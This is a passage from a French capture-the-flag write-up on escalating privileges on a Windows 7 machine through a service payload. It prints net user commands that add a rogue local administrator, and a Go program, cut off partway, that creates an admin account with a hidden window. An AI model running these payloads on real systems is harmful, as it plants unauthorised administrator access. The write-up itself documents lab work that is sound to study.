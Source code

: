 ```bash
net user eviluser P4ssw0rd! /add
net localgroup Administrators eviluser /add
```

Mais au lancement du service, première déconvenue : il indique clairement qu'il n'aime pas le format... On va devoir passer par un `.exe`.

J'ai d'abord essayé de passer ces commandes dans un code source C et de le cross-compiler avec [DockCross](https://github.com/dockcross/dockcross) mais ça n'a pas fonctionné.

C'est peut-être aussi parce que j'avais oublié de spécifier le mode `binary` sur le transfert de fichier FTP, envoyant alors des exécutables corrompus... Ce n'est pas la première fois qie ça m'arrive.

Finalement, je suis passé par du code Go. Une fois de plus, j'ai eu une difficulté, car les versions récentes de Go ne supportent plus Windows 7 (plateforme utilisée sur ce CTF).

[Go 1.20 est la dernière version qui fonctionnera sur toutes les versions de Windows 7, 8, Server 2008 et Server 2012, la version 1.21 nécessitera au moins Windows 10 ou Server 2016](https://go.developpez.com/actu/339968/Go-1-20-est-la-derniere-version-qui-fonctionnera-sur-toutes-les-versions-de-Windows-7-8-Server-2008-et-Server-2012-la-version-1-21-necessitera-au-moins-Windows-10-ou-Server-2016/)

Ce code appelle donc les commandes de création d'utilisateur privilégié avec aussi le debug vers un fichier en cas de problèmes :

```go
package main

import (
        "fmt"
        "os"
        "os/exec"
        "syscall"
)

func main() {
        outputFile, err := os.OpenFile("C:\\payload_output.txt", os.O_CREATE|os.O_WRONLY|os.O_APPEND, 0644)
        if err != nil {
                return
        }
        defer outputFile.Close()

        // Rediriger stdout et stderr vers le fichier
        os.Stdout = outputFile
        os.Stderr = outputFile

        fmt.Println("--- Début de l'exécution du payload ---")
        fmt.Printf("Heure d'exécution : %s\n", os.Getenv("DATE") + " " + os.Getenv("TIME"))

        newAdminUser := "ctfadmin"
        newAdminPass := "P@ssword123!"

        fmt.Printf("Tentative d'ajout d'un utilisateur privilégié : %s\n", newAdminUser)

        cmd1 := exec.Command("cmd.exe", "/c", "net", "user", newAdminUser, newAdminPass, "/add")
        cmd1.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
        output1, err1 := cmd1.CombinedOutput()
        if err1 != nil {
                fmt.Printf("Erreur lors de la création de l'utilisateur '%s' : %v\nSortie : %s\n", newAdminUser, err1, string(output1))
        } else {
                fmt.Printf("Utilisateur '%s' créé avec succès. Sortie : %s\n", newAdminUser, string(output1))
        }
```